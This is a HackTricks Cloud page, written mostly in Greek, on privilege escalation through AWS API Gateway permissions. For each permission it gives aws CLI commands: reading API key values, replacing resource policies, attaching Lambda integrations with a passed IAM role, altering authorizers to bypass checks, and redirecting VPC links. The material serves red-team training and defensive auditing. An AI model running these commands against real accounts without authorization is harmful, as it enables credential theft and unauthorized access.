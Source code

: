 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Με αυτή την άδεια μπορείτε να δημιουργήσετε κλειδιά API των APIs που έχουν ρυθμιστεί (ανά περιοχή).
```bash
aws --region <region> apigateway create-api-key
```
**Πιθανές Επιπτώσεις:** Δεν μπορείτε να κάνετε privesc με αυτή την τεχνική αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:GET`

Με αυτή την άδεια μπορείτε να αποκτήσετε τα παραγόμενα API keys των APIs που είναι ρυθμισμένα (ανά περιοχή).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Πιθανές Επιπτώσεις:** Δεν μπορείτε να αποκτήσετε δικαιώματα με αυτή την τεχνική, αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Με αυτές τις άδειες είναι δυνατή η τροποποίηση της πολιτικής πόρου ενός API για να αποκτήσετε πρόσβαση στην κλήση του και να εκμεταλλευτείτε την πιθανή πρόσβαση που μπορεί να έχει το API gateway (όπως η εκτέλεση μιας ευάλωτης lambda).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Πιθανές Επιπτώσεις:** Συνήθως, δεν θα μπορείτε να κάνετε privesc άμεσα με αυτή την τεχνική, αλλά μπορεί να αποκτήσετε πρόσβαση σε ευαίσθητες πληροφορίες.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Χρειάζεται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `apigateway:PutIntegration`, `apigateway:CreateDeployment`, και `iam:PassRole` μπορεί **να προσθέσει μια νέα ολοκλήρωση σε μια υπάρχουσα API Gateway REST API με μια Lambda λειτουργία που έχει συνημμένο έναν IAM ρόλο**. Ο επιτιθέμενος μπορεί στη συνέχεια **να ενεργοποιήσει τη Lambda λειτουργία για να εκτελέσει αυθαίρετο κώδικα και ενδεχομένως να αποκτήσει πρόσβαση στους πόρους που σχετίζονται με τον IAM ρόλο**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε πόρους που σχετίζονται με τον ρόλο IAM της λειτουργίας Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Χρειάζεται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateAuthorizer` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει έναν υπάρχοντα εξουσιοδοτητή API Gateway** για να παρακάμψει τους ελέγχους ασφαλείας ή να εκτελέσει αυθαίρετο κώδικα όταν γίνονται αιτήσεις API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Παράκαμψη ελέγχων ασφαλείας, μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Χρειάζεται δοκιμή
{% endhint %}

Ένας επιτιθέμενος με την άδεια `apigateway:UpdateVpcLink` μπορεί **να τροποποιήσει έναν υπάρχοντα VPC Link ώστε να δείχνει σε έναν διαφορετικό Network Load Balancer, πιθανώς ανακατευθύνοντας ιδιωτική κυκλοφορία API σε μη εξουσιοδοτημένους ή κακόβουλους πόρους**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη πρόσβαση σε ιδιωτικούς πόρους API, παρεμβολή ή διακοπή της κυκλοφορίας API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

